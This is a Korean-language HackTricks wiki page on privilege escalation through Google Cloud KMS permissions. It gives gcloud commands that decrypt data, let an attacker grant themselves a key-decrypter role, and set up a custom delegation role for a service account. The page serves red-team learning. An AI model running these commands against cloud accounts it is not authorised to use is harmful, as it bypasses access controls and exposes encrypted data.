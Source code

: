 # GCP - KMS PrivEsc

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소로 PR을 제출하세요.

</details>
{% endhint %}

## KMS

KMS에 대한 정보:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS에서 **권한**이 Orgs, 폴더 및 프로젝트에서 상속되는 것뿐만 아니라 **키링**에서도 상속된다는 점을 유의하세요.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

이 권한을 사용하여 해당 권한을 가진 키로 **정보를 복호화**할 수 있습니다.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

이 권한을 가진 공격자는 키를 사용하여 정보를 복호화하는 데 필요한 권한을 **자신에게 부여**할 수 있습니다.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

다음은 이 위임이 작동하는 방식에 대한 개념적 분해입니다:

1. **서비스 계정 A**는 KMS의 특정 키를 사용하여 복호화하는 데 직접 액세스 권한이 있습니다.
2. **서비스 계정 B**에게 `useToDecryptViaDelegation` 권한이 부여됩니다. 이를 통해 KMS에게 서비스 계정 A 대신 데이터를 복호화하도록 요청할 수 있습니다.

이 **권한의 사용은 KMS 서비스가 복호화 요청이 발생할 때 권한을 확인하는 방식에서 암시적**으로 이루어집니다.

Google Cloud KMS API(파이썬 또는 다른 언어에서)를 사용하여 표준 복호화 요청을 만들 때, 서비스는 **요청하는 서비스 계정이 필요한 권한을 가지고 있는지 확인**합니다. `useToDecryptViaDelegation` 권한을 가진 서비스 계정이 요청을 만들면, KMS는 **해당 계정이 키를 소유한 엔터티 대신 복호화를 요청할 수 있는지 확인**합니다.

#### 위임 설정

1. **사용자 정의 역할 정의**: 사용자 정의 역할을 정의하는 YAML 파일(예: `custom_role.yaml`)을 만듭니다. 이 파일에는 `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` 권한이 포함되어야 합니다. 다음은 이 파일이 어떻게 보일 수 있는지 예시입니다:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **gcloud CLI를 사용하여 사용자 정의 역할 만들기**: 다음 몤레드를 사용하여 Google Cloud 프로젝트에서 사용자 정의 역할을 만듭니다:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]`을(를) Google Cloud 프로젝트 ID로 바꿉니다.

3. **서비스 계정에 사용자 정의 역할 부여**: 이 권한을 사용할 서비스 계정에 사용자 정의 역할을 할당합니다. 다음 명령을 사용합니다:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` 및 `[SERVICE_ACCOUNT_EMAIL]`를 각각 귀하의 프로젝트 ID 및 서비스 계정 이메일로 대체하십시오.

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}
